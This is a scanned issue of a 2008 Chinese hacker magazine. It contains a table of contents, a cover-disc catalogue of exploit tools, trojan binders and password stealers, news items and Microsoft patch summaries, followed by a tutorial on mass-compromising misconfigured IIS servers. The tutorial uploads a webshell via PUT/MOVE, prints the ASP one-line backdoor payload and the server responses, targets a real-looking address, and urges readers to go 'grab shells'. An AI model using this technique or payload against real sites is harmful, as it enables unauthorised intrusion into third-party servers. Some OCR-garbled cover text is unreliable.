- 406 谈谈 Windows 下的 IPSec —— 冷雪书生

## 酷玩
- 407 非主流 IM 软件简单测试 —— 蜀国布衣
- 409 我的日志你别看——QQ 空间日志加密 —— 活在记忆里
- 409 简单去除 QQ 和 MSN 中的广告 —— 蜀国布衣

## Q版黑客
- 410 ms08025 出炉 —— 冰的原点[L.S.T]
- 411 利用农行网上银行窥探他人手机余额 —— 姚秋芳
- 411 挂马之 WinRAR —— □cizzy
- 412 批处理注入和防范 —— novaa&&rebeyond
- 413 隐藏在特权用户组中的猫腻 —— 01
- 414 虚拟机的高级应用窥探 —— 搜虎精品社区&[H.S.T]
- 417 记一次简单的拿 SHELL+提权 —— 01

## 黑川说
- 418 最后的入侵 —— luoye

## 采访
- 419 采访 coldface —— 小迷
- 420 NoHack 紧急采访——关注地震第一线的朋友

## 黑域传声
- 421 黑客编年史第二集 —— 苗子墨

## 新闻练练看
- 423 玩尽 oblog 的 0day —— 小帅@[O.S.T]
- 425 对网愿科技人才网的简单分析（续篇） —— mystery
- 428 cookies 注入 + 上传专盯 fttbbs6.3 动态版程序 —— 周璟琦
- 430 FTBBS PHP 版上传头像漏洞分析与利用 —— 胡星儒
- 431 Mop 分站的一次游玩 —— 小帅@[O.S.T]
- 432 xss 的延伸——csrf 攻击的一些杂谈 —— 小帅@[O.S.T]&seeflood@[O.S.T]
- 434 小鬼当家音乐系统漏洞浅析 —— Mystery
- 435 Jfcms 登录框的漏洞 —— or4nge
- 437 对网愿科技——人才网的简单分析的解惑 —— 艾米
- 438 鼎峰家教网 V2008 漏洞分析——不完美的渗透 —— muyan
- 439 看小菜分析鹏程网络 v1.8 漏洞 —— 飞鸟游鱼
- 441 凹丫丫网站管理系统 —— 知识型流氓[SST]
- 442 再曝 phpcms 的多个漏洞——续篇之景物埋路径 —— 冰的原点[L.S.T]

## 西线无战事
- 443 对著名快递公司的一次艰难的 Oracle 注入 —— rebeyond
- 445 巧用 Telnet 做后门和跳板 —— simeon
- 447 无聊的邮箱骚扰外加创新玩法 —— 废人
- 449 对“步步低”官方网站的检测 —— SpookZanG&Maxil
- 451 横扫 php 系列之一 —— hackall
- 453 最新的 PHP 入侵实例 —— 兔子

### 高手专栏
- 454 跨站不仅仅是 alert() —— 余弦
- 457 我在入侵时的一些经验和小技巧 —— 落叶纷飞[J.L.S.T]@肇庆

## 黑客免杀班
- 458 打造免杀的 Microjoiner 1.7 捆绑机个人版 —— x140cc
- 459 木马免杀之让杀毒软件变成睁眼瞎 —— 没落的残阳

## 窗外
- 460 Linews
- 461 Ubuntu 8.04 不完全体验之旅 —— Lucifer
- 463 Unix 系统安全——权限机制加强版续 —— evilangel

## 泡泡吧
- 465 Strike The Internet Bar —— 咸鱼
- 466 网吧破解券密码和系统管理员密码 —— 丁其

## 快码加编
- 466 实现 DNS 扩大攻击 —— 认真的雪[E.S.T]
- 469 Asp 解密游戏编写与通关策略（三） —— 冰域剑客
- 469 从迅雷窥视软件安全 —— cn_判官(Summer)
- 472 Windows Trootkit 编写初步（一） —— 韦韬@电子科技大学凝聚网络安全工作室
- 473 VB+ASP+社会工程学盗邮箱账号 —— 冰域剑客
- 474 VC 编程模拟“摆渡”型 U 盘病毒 —— 重庆通信学院地域通信教研室 杨阳 唐波

## CRACKER
- 477 86 的破言破语
- 477 每月破资源
- 477 先脱后破再分析微服视频监控直播系统 —— 披着猫皮的虎
- 479 艰难的传世多开 —— 落叶鉴定师

## 读编互动
- 479 Q & A —— 徐师傅

本光盘工具、软件及电子书已经压缩打包，使用之前请先用 WinRAR 软件解包。一部分恶意软件有可能被杀毒软件报毒，这是可以完全排除的故障。在使用过程中如有问题请参阅使用说明（PDF、PDG 格式电子阅读器使用说明）。PDF、PDG 文件均可使用 Foxit Reader 或用搜星浏览器打开，WDL 文件可使用 WDL 电子书籍浏览器打开，DOC 文件可使用 Word Viewer 2003 打开。

# 光盘目录

# 手册相关

# 【2008年01月】
- 动感大挪移免注册版
- IceSword 冰刃
- 中华免费家教网站程序1.5
- 雕牌专用一句话后门
- VMProtect 1.56
- C32Asm v0.4.12 完全版
- MS07017 提权工具
- 冷血书生破解文集
- TMDWL 脱壳机
- ……

# 【2008年02月】
- IPv6 软件包（for Windows 2000 版）
- VMWare 6 汉化包
- 一句话小马和客户端
- 高级内网渗透工具 Paris（创建 VPN）
- DVBBS 上传利用工具
- WinRAR 自解压补丁
- 多功能破解软件 PasswordBreak 4.5
- 汉化 Delphi 7 补丁
- ……

# 【2008年03月】
- 修改 COOKIES 的浏览器
- MS08-011 漏洞利用工具
- 辅臣数据库浏览器
- ProcessViewer 汉化版
- QQHash 提取工具
- QQHash 值转化
- 梦断难寻 MD5 密码破解器
- 卧龙 ICO 图标提取器
- 亮星之王
- 360 安全卫士 3.7
- 官管超级脚本免杀加密器 1.0
- PEiD 0.94 看雪全插件版
- 文件夹加密 MagicFolder
- ……

# 【2008年04月】
- phpcms2007 注射 0DAY_EXP
- WinlogonHack 软件及源码
- EmailCrack 破解邮箱密码
- Goolag Scanner 扫描器
- QQ 垃圾文件清除
- PHP 漏洞利用程序 2008 php
- 极品私人密码 2007（绿色破解版）
- 《龙魂》电子刊
- 《看雪论坛精华9》

# 【2008年05月】
- 工具跳板 ASock5
- 工具 BAT 转 EXE
- 个性背景任意更换器
- 百度 ID 批量注册 V1.0
- Dedecms 漏洞利用程序
- RealPlayer 漏洞利用包
- iecookies 浏览器
- 上兴 4.5

# 【2008年06月】
- MS08025 漏洞利用工具
- QQ 好友关系密探
- Java 存储过程代码
- IE 恶搞迷
- MicrJoiner 1.7 捆绑机
- PcShare 手册专版
- Sql 综合利用工具
- 万象幽灵 2007
- 黑鹰 MD5 批量破解加密
- Advanced 密码星号显示查看
- S-player 免密码补丁
- 微服 USB 摄像头视频监控直播系统

# 动漫教程
- Linux 从入门到精通视频教程系列
- MS08_011 漏洞利用及两个 0DAY
- Poison Ivy 免杀教程
- RA 远新漏洞之网站跨站运行
- SQL 注入漏洞入侵
- VC 实现 PHP 败信
- 万能密码漏洞入侵
- 五秒钟快速查杀木马
- 图片木马让你抓鸡盗号更轻松
- 快速给百度空间用户发送大量信息
- 怎么使用 ASP 收信盗 Q
- 检测网站后台用户密码
- 盗 QQ 教程
- 破解 ShoeMaster OS 7.01 加密狗
- 破解优化大师
- 过插件破支付宝湖南业务
- 远程控制万象网吧主机修改数据库加钱
- 鸽子捆绑免杀教程
- 鸽子最新免杀
- ……

# SQL2000 自学教程
- Microsoft SQL Server 2000 资源大全
- Microsoft Jet SQL 参考
- SQL Server 2000 与 ASP Web 数据库编程技术
- SQL Server 高级开发与专业应用
- 轻松掌握 SQL 第四版
- Access 2003 中文版应用基础教程
- Access 2003 入门与提高实用教程
- MySQL 数据库大进击
- Unix 和 Linux 下的 Oracle 数据库管理
- Oracle 的入门心得
- SQLSERVER 导入 ORACLE 数据库
- ASP 网络编程技术
- 完全接触 ASP 之基础与实例
- NC 瑞士军刀
- WSocketExpert 抓包工具
- PHP 开发人员手册
- PHP 中文手册
- PHP&MySQL Web 网络编程
- ASCII 及十六进制转换工具
- 通用 php 远程文件包含漏洞获取 webshell 的工具
- 采飞扬 PHP 微型木马客户端
- JSP 由浅入深
- 最新 JSP 入门与应用
- JSP 技术大全
- JSP 动态网站技术入门与提高
- JSP 应用程序开发指南
- Java 开发指南——Servlets 和 JSP
- JSP 数据库编程指南
- 深入 JSP 网络编程
- J2EE Java 黑客大曝光：开发安全的 Java 应用程序
- Ajax 入门
- XML 实用大全
- XML 编程从入门到精通
- XML 指南
- XML 示例程序导学 第二版
- XML 网页制作彻底研究
- ……

# 精通脚本黑客
- 《精通脚本黑客》电子书
- 相关软件及资料
- Apache 服务器 apache_2_0_59
- IIS 服务器 iis6.0
- tomcat 服务器 jakarta-tomcat-5.0.28
- MySQL 数据库 mysql-5.2.3
- PHP 环境服务器 php-5.2.1-Win32
- JDK 环境服务器 jdk-6u1-windows-i586-p
- DOS 概述及入门
- 凯文米特尼克《软骗的艺术》英文版
- 海洋顶端 2006 用户手册
- HTML 实用标记
- 网页设计语言教程（HTML、CSS）
- 查看 IE 的 cookies 工具
- 桂林老兵 cookie 欺骗工具
- JavaScript 从入门到精通
- Java 网络编程实例
- JavaScript 快速查询手册
- VB6.0 中文版教程
- VBScript 帮助手册
- VB6 语言参考手册
- VB6 循序渐进教程
- VB6 程序员指南
- VB6 控件参考手册
- VB6 组件工具指南
- MSSQL2000 菜鸟进阶教程

# 奥运专题软件
- 2008 北京奥运屏幕保护 1.28
- 摇钱树网吧管理软件 2008 奥运免费体验版
- 媒体酷 2008 奥运版 2.310
- 自动关机 2008 奥运版
- 中国 2004 雅典奥运会冠军屏幕保护 1.0
- 中国福利彩票 3D 杀手奥运特别版
- 赛娜多媒体电子家谱系统 2008 奥运纪念版
- 卸载大师 2008 奥运版
- 立体软件 2008 奥运版 2008版
- 格调网精品奥运主题之奥运圣火 1.0：XP 系统
- 数字卡易售在线销售系统 2008 奥运综合版
- 知识大挑战 2008 奥运版
- 奥运术语英汉—汉英速查 1.0
- 格调网奥运精品主题包之奥运起源 1.0 for XP
- 靓典发型设计软件 2008 奥运版
- 格调网精品奥运主题之奥运圣火 1.0 Vista 系统
- 一路风情热门论坛自动灌水机 2008 奥运版
- 格调网奥运精品主题包之奥运起源 1.0 for Vista
- 云帆进销存 0.8 奥运版
- 六品网络电视奥运特版
- 佛盛龙棋牌室麻将房计费管理软件 2008 奥运版
- 佛盛龙卡丁车一卡通管理 2008 奥运版
- 木马专家 2008 迎奥运免费版 0521
- 流量采集大师 2008 奥运版
- 天人网络电视 2008 奥运版 4.0
- 奥运彩平台 1.01
- ……

# 工具集合

# 【黑客工具】
- 高度隐藏自己 IP 工具
- FBI 远程控制系统 Beta 1
- 图片木马生成器完美版
- Vbs+Delphi 反弹后门生成器
- QQ 聊天记录查看器 V3.0 8_324Quake 版
- IP 端口扫描器 1.0
- 流量监控 DU Meter 3.5 绿色版
- 东南网安远程控制软件 0.11 beta2 版
- 落雪远程控制协助系统 2008 beta1.4
- 肩膀破解版免杀全能捆绑程序 V1.0
- QQ 密码大划拉 2008 网络版
- 灵魂免疫室 2.1 修改版
- 猪猪密码查看工具包 V1.0
- ASCII 网络安全卡巴主动终结者
- 冰点 6.0 密码读取程序
- 云风 WebShell 管理器
- 黑客港湾 QQ 查询器
- phpcms0dayEXP_内部增强版
- Network LookOut Administrator Pro v3.1.1
- ……

# 【查杀病毒】
- PC-cillin 2006 网络安全下载版
- V3 VirusBlock 2006 下载版
- V3 高手版 2006 下载版
- 卡巴斯基互联网安全套装 7.0
- 卡巴斯基反病毒软件 7.0
- 反间谍高手下载版
- 安天防线 2008 NEW

# 【实用工具】
- Windows XP SP3 补丁包
- Windows VISTA SP1 补丁包
- Ghost 精灵 5.0
- Ghost 镜像安装器 v1.0.6.9
- 超级巡警之虚拟机自动贩卖机 V1.6.0
- xxcopy v2.96.6
- Ad-Aware 2007 系统安全工具
- JetAudio V7.1.0 Build 3100 Plus VX
- Hard Disk Sentinel V2.50
- Adobe Encore CS3 一款 DVD 编著软件
- K-3D V0.7.5 是基于 GNU/Linux 和 Win32 的一个三维建模、动画和绘制系统
- MediaCoder V0.6.0 Build 4112 一个免费的通用音频／视频批量转码工具
- Wise Disk Cleaner 3.30 Build 111

# 手机软件

# 【手机工具】
注意：所有工具如无特殊说明均为诺基亚（NOKIA）系列手机适用

- 腾讯 QQ 手机版 2008 祈福版 beta0.10
- 超级相机
- 虚拟背景 Splis FakeSounds SymbianOS 9.1 Retail-UNPDA 0902008 正式版
- S60v2 天天动听 2.1 圣诞节版
- 来电通 S60 3rd 2.43.3
- 3D 动画声音屏保
- QQ 游戏大厅
- N73 超级音响补丁
- 列车时刻表 1.6
- QQ2007 修改版（同时登录两个 QQ）
- A4 输入法 for S60 v3 数字键盘版第 5 次内测版
- 图像合成+图像处理工具 PhotoWings v1.1 and PhotoNova v2.1
- 方波驱蚊器
- 08 全国手机地图
- mToolbox v1.0.1 随身工具箱
- CorePlayer 完美风暴全能影音播放中文破解版
- 一键还原工具
- 零点蓝牙汉化版
- 手机密码箱 Phone Wallet v1.00 3rd 简体中文版
- Babycare 手机尖叫
- 飞行大头贴 2.0 for S60 3rd
- 动感讯息
- 好帮手 v2.00

- 5700 闪光灯长亮软件
- BlackBaller 来电／短信／彩信／防火墙 v1.00
- 通话录音
- 方正静蕾字体
- SaveMem 磁盘清理 v1.00
- 3250 能用超强查询
- 来电精灵 0.56
- N73 来电防火墙
- CallMaster 来电通 2.11 正式版
- PyRinger v1.0 电话炸弹
- 文件加密的软件（Best Crypto 1.0）汉化破解版
- 掌上书院 Mlook 4.12 去除时间限制版
- ……

- 狙击风暴
- 春光灿烂麻将馆
- 龙在江湖一斧头 2
- 轩辕战记
- 杨戬外传
- 帝国时代 2
- 厨神秘录
- 极品飞车街头狂飙
- 虎胆龙威
- 《火焰之纹章 3－终章》光明与黑暗
- 狂少年张飞横空出世
- 神魔幻世录之魔临前夜
- 小破孩之跑跑
- 侠缘
- 狂野都市
- 西游歪传
- 上古魔神灭世之战
- 剑侠情缘之斩鬼传
- 第一滴血 4 最新版
- EA 填球加强版
- 轩辕战记资料片－纵横天涯
- 七龙珠悟空飞翔传
- ……

# 手机游戏

以下游戏如未特别说明均为诺基亚（NOKIA）系列手机适用。

- 怪兽仙境威力加强版
- 剑缘
- 怪兽仙境 2 最新版
- 宇宙骑士
- 魔龙传说
- 圣剑玫瑰 2——诺亚大陆

# 《非安全·黑客手册》全国代理商电话

| 城市 | 电话 |
|---|---|
| 北京 | 010-86921991 |
| 北京 | 010-65302520 |
| 北京 | 010-65072885 |
| 哈尔滨 | 0451-88342321 |
| 鞍山 | 0412-2218341 |
| 包头 | 0472-4138751 |
| 保定 | 0312-2038408 |
| 沧州 | 0317-3015380 |
| 长春 | 0431-82700526 |
| 常德·衡阳 | 0736-7389148 |
| 常州 | 0519-88105882 |
| 成都 | 028-89935872 |
| 大同 | 0352-2021603 |
| 大连 | 0411-84600173 |
| 阜阳 | 0558-2271183、2233944 |
| 贵阳 | 0851-5984895、6819938 |
| 桂林 | 0773-2859586 |
| 武汉 | 027-85493562 |
| 杭州 | 0571-88256366 |
| 合肥 | 0551-2611465、7139358 |
| 衡水 | 0318-7902322 |
| 济南 | 0531-82903395 |
| 淮南 | 0554-6314707、2671546 |
| 昆明 | 0871-4168505 |
| 兰州 | 0931-8514919 |
| 柳州 | 0772-3111816 |
| 南昌 | 0791-8522285 |
| 南京 | 025-83328998 |
| 南宁 | 0771-2615676 |
| 南通 | 0513-85501751 |
| 宁波 | 0574-87660206 |
| 齐齐哈尔 | 0452-2683430 |
| 秦皇岛 | 0335-3691263 |
| 青岛 | 0532-83848881 |
| 深圳 | 0755-82264081 |
| 沈阳 | 024-23842760 |
| 石家庄 | 0311-83029157 |
| 太原 | 0351-7041968 |
| 唐山 | 0315-2259572 |
| 天津 | 022-27697711 |
| 乌鲁木齐 | 0991-5589830 |
| 无锡 | 0510-82827566 |
| 西安 | 029-82100804 |
| 宜昌 | 0717-6443827 |
| 张家口 | 0313-2068200 |
| 威海 | 0631-5202057 |
| 淄博 | 0533-2150683 |
| 上海 | 021-63760720 |
| 郑州 | 0371-67647276 |
| 烟台 | 0535-6260748 |
| 徐州 | 0516-83777678 |
| 苏州 | 0512-65188163 |
| 长沙 | 0731-6562796 |
| 重庆 | 023-67051833 |
| 任丘 | 0317-2254900 |
| 广州 | 020-34296413 |
| 邯郸 | 0310-3090822、7672216 |
| 福州 | 13960788097 |

## 黑客手册

安全界

# 非安全

网络安全导航  
电子 Mail：nqhack@21cn.com  
www.nqhack.cn  
黑客领域  
《安全》《区块》CD 一面精选》深受读者喜爱

揭开“永恒之王”——勒索的利刃，非安全之冬怎样威胁黑客帝国？

### 高手专栏

- MySQL5.5 辅助社区绝技
- 藏在入侵过程中的绝妙加密细节（二）
- 入侵过程中的常用小技巧（二）

破解 86 的破言妄语  
新同义词的召唤——最新漏洞大看板

NOT GAME——不是游戏

长戈  
权限削减的一把匕首  
原宝甲物之一，使用它对 HTTP REQUEST to access 有奇效

疯狂艺术已经讲述出 PC 安全曲，NOD32 也能玩出免杀艺术  
小型 BAT 变 ZASP WebShell 免杀  
【新闻】网站挂出 WEBSHELL——网页漏洞日 228 种安全趋势  
【进阶】动态加密，让木马躲过层层看门口  
【菜鸟入门】批处理 shell，调用 USB 权限  
【开源】伪装软件包终极绝密  
Linux/Ubuntu 桌面环境安全与美化

2008.10  
No.49

# 一次“光芒果”编辑关于《非安全·黑客手册 2007 年③④季合订本》的开会记录

图·光芒果

圣诞过了是元旦，元旦过了是春节，三节接踵而至，真让光芒果俺疯狂至极（**小编：黑客不可怕，就怕黑客没文化，芒果套用这个词汇，MS 闽南地区俚语，指青年男女……，省略 N 个字，算了，算了，人家著名儿童饮料都叫这个名字，我们还瞎操心啥**）。

今年是黑运年，而我们 2007 年的合订本即将推出（**负责而操心的责编：看到本文的时候，③④季早上市鸟！**），我们该给广大读者们一个什么样的惊喜呢？编辑部特开会讨论合订本的内容方案，光芒果同志作会议流水记录如下：

随着网络的发展，社会的进步，Internet 形势一片大好。在互豆花大的带领下，编辑部彻底脱离了刀耕火种的原始生活，直接迈入了 13 个月搞一顿麻小、7 个月喝一次铁锹的半小康社会（**某来意的小编捧哏犀利而粗鲁：半小康个屁，最多算贫农翻身**）。脱贫的社员欢欣鼓舞，人山人海，锣鼓喧天，鞭炮齐鸣……（**某编：咋寒**）

编辑们讨论得热火朝天，各抒己见，甚至互相掐起来，飞鸟狡兔，良弓走狗，扔来砸去，主持人眼睛猴已经不能控制局势，落荒而逃，躲进了心仪已久的 WC。局势一度失控，真空状态……

就在这时（**根据历史知识，胶着状态下的战争，一般都是由互不相干的人“破”的**）邮购部的豹妹进编辑部拨开水，随口丢了一句：编辑部有没有独家珍藏的《黑客编程实例精讲》和《网吧黑客一点通》？很多读者还想邮购！！！

一向聪慧敏感的芒果偶，灵光乍现，仿佛浴霸的灯泡照亮了我的脑花：上次的《2007 ①②季合订本》中放了《缓冲区溢出教程》电子书，得到了大多数读者的喜爱，这次我们是不是在《2007 ③④季合订本》里放一本电子书以飨读者呢（**愤怒的读者：砍你个头，以为是编辑就拿范文学写手，上次搞的图书《黑客入门菜谱》，我打电话给邮购部那钩钩，说买一本《黑客入门菜谱》，豹妹在电话那头狂笑……**）？

全场举手表决，一致通过的庄严时刻就要来了。再次经过激烈的讨论，大家准备举手把《网吧黑客一点通》做成电子书放进《2007 ③④季合订本》DVD 光盘中。从 WC 牵出来的眼睛猴貌似不很满意，难道猴子有新花招？？大家目光如炬，齐刷刷投向猴子，猴子忽然发话：“请大家不要拍照，并关闭摄像机！我觉得只放《网吧黑客一点通》的电子书还不够，再把《黑客编程实例精讲》也做成电子书一起放进年末的合订本光盘里吧！”

猴子的话刚结束，编辑部就响起一阵热烈的掌声（**空气：其实是电脑游戏的，这里还有鞭炮齐鸣的 MP3 文件，有需要造势的个人或单位请联系我**）。全票通过。

猴子：“偶还冒说完，再把 08 年的杂志也全部做成电子书放进去……”

功夫 2 分钟后，猴子被拖出编辑部，黄里透黑的白袜子上清晰地写着“好惨”三个字……

不好，一不小心把手册的最高机密会议给透露出来了！不过一切为了读者着想么，想想，只花一本书的钱，就可以买到三本书带来的黑客技术。看来，这个寒假同学们可以好好学习下黑客技术了。当然，除了电子书，还有许多精彩的内容哦，具体是什么我就不能再透露了。就请大家拭目以待吧！

## 新闻摘要

又是一年元旦到，新年就得有新气象。微软自来就是“阔主”，看来还是没有什么可以替代它的东西；世界首富的公司就是不一样，产品都要求越发丰厚的！2008 年 Vista SP1 和 XP SP3 也许就要出来了，希望它们能够让我们在奥运年新时代将安全性提高些。最近大家应该都有看与 Google 相关的事情，微软它也很会炒作呢！从 Gphone 到 G.cn，似乎它会让人们开始忆起 G 时代！

## 最新补丁影响 IE 浏览器 微软展开事件调查

据微软证实，正在对新发布的安全补丁影响 IE 浏览器性能的问题展开调查。相关原因是微软发布的新补丁影响了一些用户使用 IE 浏览器访问网页的能力。有用户还称，在使用 IE 浏览器的时候大约 60% 的时间都会遇到问题，有时会莫名其妙弹出一个对话框，关闭这个对话框 IE 就被强制关闭了。

而且还有用户在微软的 IE 论坛发表看法，他们指出，Windows XP 和 Windows Vista 中的 IE 6 和 IE 7 软件都打不开，或者打开之后也不能访问某些网页。微软称，目前客户服务和技术支持团队正在对发生的问题展开调查……

**小迷点评：** 补丁也出问题？这次给微软的难题，会不会来个补丁中的补丁呢？这些问题都要用户来发现，难道微软公司很少有人用 IE 浏览器？

## 黑客架设虚假 DNS 服务器 网络钓鱼攻击进入 2.0 时代

据国际报道，Google 和乔治亚州工学院的研究人员正在研究一种几乎无法被发现的攻击方法。这项研究关注了“开放递归”DNS 服务器，犯罪分子在使用这类服务器和其它新的攻击技术开发新一代的钓鱼式攻击。

研究人员估计，目前互联网上有 1700 万台“开放递归”DNS 服务器。与其它 DNS 服务器不同的是，“开放递归”DNS 服务器能够回应来自互联网上任何计算机的查询请求，这使得它们能够为黑客所利用。

乔治亚州工学院研究人员大卫说，这是一种很难留下痕迹的犯罪活动。他表示，对 DNS 进行攻击并非什么新招数，至少在 4 年前，网络犯罪分子就已经开始修改用户计算机的 DNS 设置。但直到最近，犯罪分子才开始使用这种新的攻击方法。尽管首批这样的攻击利用病毒修改设置，但后来它们一直依赖基于 Web 的恶意软件。

**小迷点评：** 技术会永远发展的，无论其用途是黑还是白。堵不是办法，那能不能引导呢？总之，大家多多关注安全，在洪水猛兽来之前就做好准备吧！

## 黑客报复谷歌 网站排名系统遭到破坏

大家也许都知道，在使用谷歌搜索关键字所得出的结果中，它会对某些恶意链接给出提示警告，确实方便了用户。但黑客目前对这种方法做出了回应，那就是破坏谷歌搜索结果页面上的网站排名系统。其破坏方法就是将搜索结果引导到含有恶意软件的网站，并在谷歌的搜索结果中自动植入博客和论坛中的恶意链接。

通过发动新一轮轰击做出了回应。黑客们在受到破坏的服务器上设置数千个页面，其中会提到某些特定的条目，以此来获得相对较高的搜索排名。

**小迷点评：** 大家也许都知道，在使用谷歌搜索关键字所得出的结果中，它会对某些恶意链接给出提示警告，确实方便了用户来进行选择是否点击进去。但通过这次黑客事件，也许这些恶意链接的提示警告都不在了，大家还是小心为好，凭“社工”来判断了。

## MS07-064：DirectX 中的漏洞可能允许远程执行代码

**说明：**

此严重安全更新可解决 Microsoft DirectX 中两个秘密报告的漏洞。如果用户在 DirectX 中打开用于流式媒体的特制文件，这些漏洞可能允许执行代码。如果用户使用管理员权限登录，成功利用此漏洞的攻击者便可完全控制受影响的系统。攻击者可随后安装程序，查看、更改或删除数据，或者创建拥有完全用户权限的新账户。那些账户被配置为拥有较少系统用户权限的用户比具有管理员权限的用户受到的影响要小。

这是 Microsoft Windows 2000、Windows XP、Windows Server 2003 和 Windows Vista 的所有受支持版本的严重安全更新。

- 受影响的软件：
- DirectX 7.0 到 DirectX 10.0

## MS07-066：Windows 内核中的漏洞可能允许特权提升

**说明：**

此重要安全更新解决 Windows 内核中一个秘密报告的漏洞。成功利用此漏洞的攻击者可以完全控制受影响的系统。攻击者随后可安装程序，查看、更改或删除数据，或者创建拥有完全管理权限的新账户。

- 受影响的软件：
- Windows Vista
- Windows Vista x64 Edition

## MS07-065：消息队列中漏洞可能允许远程执行代码

**说明：**

此重要安全更新可解决消息队列服务（MSMQ）中秘密报告的漏洞，该漏洞可能允许在 Microsoft Windows 2000 中实施远程执行代码或在 Windows XP 上实施特权提升。攻击者必须拥有有效的登录凭据才能利用此漏洞。攻击者可随后安装程序，查看、更改或删除数据，或者创建新账户。

- 受影响的软件：
- Microsoft Windows 2000 Service Pack 4
- Windows XP Service Pack 2

## MS07-069：Internet Explorer 累积性安全更新

**说明：**

此严重安全更新可消除四个秘密报告的漏洞。最严重的安全影响可在用户使用 Internet Explorer 查看特制网页时允许远程执行代码。那些账户被配置为拥有较少系统用户权限的用户比具有管理员权限的用户受到的影响要小。

- 受影响的软件：
- Internet Explorer 5.01 到 Windows Internet Explorer 7

**新年寄语：**  
最近又中招了，具体原因不明。俗话说：常在河边走，哪有不湿鞋。就靠一个瑞星监控，不开发一系统，在网上鬼混晃荡就中招了，这年头的 0day 怎么这么多呢？各位菜菜朋友们一定要注意自身安全啊，别去抓鸡的时候让人给抓了哦。最后，恰逢双“蛋”，祝各位双“蛋”快乐啊，新年新气象，好运多多，肉鸡多多。

图 冰的原点 [L.S.T]

## 批量拿 shell，找用 IIS 写权限

从本文你可以学到：

- 利用 IIS 配置不当批量拿 webshell 的方法

不知道各位菜菜是不是有这样的感受？让人有时候会碰到猜不到表名或者列名，或者有时候解的列名长度太长，或者有时候搞出来用户名和密码，却找不到后台？这样拿 shell 是不是很不爽呢？不要紧，今天就让大家感受一番批量拿 shell。成功率很高的哦！

其它 IIS 写权限漏洞是因为 IIS 设置不严格造成的，而且利用起来也很简单，只需要三样工具就可以了。一个 IISPutScanner（这个是扫描用的，用来扫描存在写漏洞的主机），一个 iiswrite（这个是用来传马的），还有马一匹（这个就不用介绍了吧，这里我用海洋的）。

首先我们得先找个活跃段的 IP，这里怎么找呢？我们随便到 www.hao123.com 上找一个网站，这里我找的是天天基金网。我们打开 CMD，先 Ping 一下，得到它的 IP，如图 1。然后把范围扩大一点，我在 iisputscanner 里是这样设置的，如图 2（大家可以根据自己机子的配置适当地选取 IP 段和线程）。

在里面，如图 4。

打开 iiswrite（有杀软的朋友可要注意了，杀软可能会把它当作病毒来处理哦，用这个东西前得先关掉你的杀软），在域名后面的框中输入有漏洞的 IP，请求文件改成 1.txt，数据包格式选成 PUT，接着选择刚才在桌面上建的 1.txt，如图 5。

（这里一定要注意顺序，先填 IP，后选数据包的格式。）选好以后，基本上是这样的，如图 6。

这个时候单击“提交数据包”，如果成功的话，就会返回如下信息：

```text
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Fri, 02-Nov-2007 17:34:00 GMT

HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Fri, 02-Nov-2007 17:34:00 GMT
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE,
PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK
```

这里我的运气还不错，第一个就成功了，接下来我们还得把传上去的 1.txt 改成后缀名为 asp 的！还是刚才的 iiswrite，这回我们把数据包的格式改成 MOVE，再提交，如果成功的话，会返回如下信息：

```text
HTTP/1.1 201 Created
Server: Microsoft-IIS/5.0
Date: Fri, 02-Nov-2007 17:39:10 GMT
Location: http://122.224.133.188/shell.asp
Content-Type: text/xml
Content-Length: 0
```

如图 7。呵呵，运气还真是不错！找了个示范的站点还真是配合我的工作哈。这样我们的后门地址就是 http://122.224.133.188/shell.asp，打开海洋的马去连下试试，在地址栏中输入后门地址，如图 8。

单击提交。呵呵，成功的话就会出现如图 9 所示的画面（说明下，这里一句话我用的是 `<%eval request(chr(35))%>`，并没有设置密码，所以这里直接点“芝麻开门，码是老马”就可以进去了）。

好了，这样我们就拿到了一个网站的 shell 了，是不是很简单？不过这里有几点要说明一下，有些网站虽然存在这个漏洞，但我们却利用不了，（在实践的过程中也许就会碰到这样的站点，不过这并不是我们讨论的范围）。知道如何批量拿 webshell 就可以了！虽然如此，当我们找到一个活跃的 IP 段的时候，拿到 shell 的几率还是蛮大的！也许当我们认为这个站无懈可击的时候，试试这个可能会有新的发现哦！各位菜菜，还等着干什么？去拿 shell 去吧！有什么不懂的话，可以到论坛来找我，我的 ID 是冰的原点。

（本文中涉及到的工具，在光盘中有提供，工具如下：IISPutScanner、iiswrite 和海洋木马。）

> ### 编辑点评
>
> 这个方法在网上有教程，而且很泛滥，但不是所有的读者朋友都是能经常上网的，所以选了这篇文章交到纸张媒介上让大家来学习一种更方便快捷的抓鸡方法。方法很简单，利用也不复杂，很适合批量抓鸡，同时也感叹国内的网管们对 IIS 配置的关心程度不够。## 首语：
不少读者都还是学生吧，不知道你的学校每天会不会断网呢？反正小编的学校是会的。每天下课的时间和睡觉的时间都断网，那提有多郁闷了，所以我们寝室里就把手机连到电脑上，开个代理。全寝室通过一部手机GPRS上网，网速那个慢呀。不过比没有好。我们就这样度过了一段美好的时光，然后每天都感叹，3G什么时候能普及啊……

## 离开端口，木马无沦驰骋
图 天涯衰草
黑客在成功入侵远程系统后，就会通过木马程序来进行控制操作。但是任何数据的传输都离不开端口的配合，即使是再神通广大的木马也不例外。那么端口在木马的操作中起到了怎样的作用？我们应该如何使用端口来控制木马呢？今天我们就来说一说，驰骋网络中的木马程序。
网络的发展，冰河也显得英雄迟暮。而后有很多优秀的国产木马脱颖而出，其中PcShare由于采用了大量的主流木马技术，因此深受国内木马爱好者的喜欢和推崇。今天就通过最新版本的PcShare 2007，来为大家进行木马使用的相关介绍。

## 一、木马的前世今生
木马程序是一种进行远程控制操作的黑客程序，也是一类恶意危害网络安全的程序，它具有隐蔽性和非传播性等特点。它的工作原理和正规的远程控制软件是一样的。木马程序一般有两部分组成，位于本系统中用于发送指令的被称为主控端或客户端（Client），被客户端控制的系统称为被控端或服务端（Server）。
在进行远程控制操作以前，首先需要把服务端安装到被控制的电脑中，而在本地的电脑里也需要安装相应的客户端程序。它的控制过程是，首先由服务端在远程电脑中打开一个特定的端口，然后客户端向远程系统中的服务端发出信号，再通过服务端已打开的端口建立一个特殊的远程服务。通过这个远程服务就可以发送远程控制命令，控制被控端系统中的各种应用程序。这类木马程序典型的代表包括冰河、网络精灵、BO2000等。
